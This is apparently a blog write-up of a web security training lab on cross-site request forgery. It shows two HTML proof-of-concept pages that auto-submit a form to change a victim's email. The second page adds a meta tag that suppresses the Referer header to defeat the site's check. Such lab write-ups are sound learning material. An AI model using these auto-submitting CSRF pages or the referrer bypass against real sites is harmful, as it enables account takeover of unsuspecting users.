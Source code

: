 ```yaml
---
layout: post
title:  "CSRF where Referer validation depends on header being present"
date:   2024-10-03 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution 

Exactly like the rest other labs, we have to update the email, Intercept the request and Generate the POC using engagement tools.. here is how the POC looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Then Copied the payload into Exploit server, `Stored -> View Exploit` that resulted in a referrer header error 

![]({{ site.baseurl }}/assets/images/csrf-24.png)

In order to bypass the check we can add the following the piece of code `<meta name="referrer" content="never">` into our POC 

```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Redo the method again in terms of exploit server after adding this code like `Store -> Deliver the exploit to Victim` and then lab will be solved 

![]({{ site.baseurl }}/assets/images/csrf-25.png)